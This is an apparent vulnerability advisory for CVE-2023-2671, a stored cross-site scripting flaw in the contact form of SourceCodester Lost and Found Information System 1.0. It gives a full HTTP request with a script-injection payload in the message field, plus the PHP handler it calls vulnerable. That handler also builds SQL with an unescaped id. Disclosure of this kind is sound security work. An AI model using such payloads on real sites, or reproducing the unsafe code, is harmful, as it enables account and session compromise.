

# Exploit Title: SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 CONTACT FORM MASTER.PHP FULLNAME/CONTACT/MESSAGE CROSS SITE SCRIPTING

A vulnerability classified as problematic has been found in SourceCodester Lost and Found Information System 1.0. Affected is an unknown function of the file classes/Master.php?f=save_inquiry of the component Contact Form. The manipulation of the argument fullname/contact/message leads to cross site scripting
### Date: 
> 12 May 2023

### ID: CVE-2023-2671
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> items/view.php


### Description:
> A vulnerability was found in SourceCodester Lost and Found Information System 1.0. It has been rated as problematic. This issue affects an unknown functionality of the file classes/Master.php?f=save_inquiry of the component Contact Form. The manipulation of the argument fullname/contact/message with an unknown input leads to a cross site scripting vulnerability. Using CWE to declare the problem leads to CWE-79. The software does not neutralize or incorrectly neutralizes user-controllable input before it is placed in output that is used as a web page that is served to other users
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/?page=contact
2. Post content to form
Request
```
POST /php-lfis/classes/Master.php?f=save_inquiry HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------22907560349085467073379285206
Content-Length: 793
Origin: http://localhost
Connection: close
Referer: http://localhost/php-lfis/?page=contact
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="id"


-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="visitor"


-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="fullname"

Tuan
-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="email"

test4@gmail.comapins
-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="contact"

122222222
-----------------------------22907560349085467073379285206
Content-Disposition: form-data; name="message"

1"><script>alert('XSS')</script>
-----------------------------22907560349085467073379285206--


```
3. Go to admin and view message /php-lfis/admin/?page=inquiries/view_inquiry&id=

4. Result


5. CODE VULNERABLE
```
<?php
function save_inquiry(){
		extract($_POST);
		$data = "";
		foreach($_POST as $k =>$v){
			if(!in_array($k,array('id', 'visitor'))){
				if(!empty($data)) $data .=",";
				$v = htmlspecialchars($this->conn->real_escape_string($v));
				$data .= " `{$k}`='{$v}' ";
			}
		}
		if(empty($id)){
			$sql = "INSERT INTO `inquiry_list` set {$data} ";
		}else{
			$sql = "UPDATE `inquiry_list` set {$data} where id = '{$id}' ";
		}
			$save = $this->conn->query($sql);
		if($save){
			$resp['status'] = 'success';
			if(empty($id)){
				if(!isset($visitor))
					$resp['msg'] = "New Inquiry successfully saved.";
					else
					$resp['msg'] = "Your Message has been sent successfully. We will reach out using your contact information as soon as we sees your message. Thank you!";
			}else
				$resp['msg'] = " Inquiry successfully updated.";
		}else{
			$resp['status'] = 'failed';
			$resp['err'] = $this->conn->error."[{$sql}]";
		}
		if($resp['status'] == 'success')
			$this->settings->set_flashdata('success',$resp['msg']);
			return json_encode($resp);
	}
```

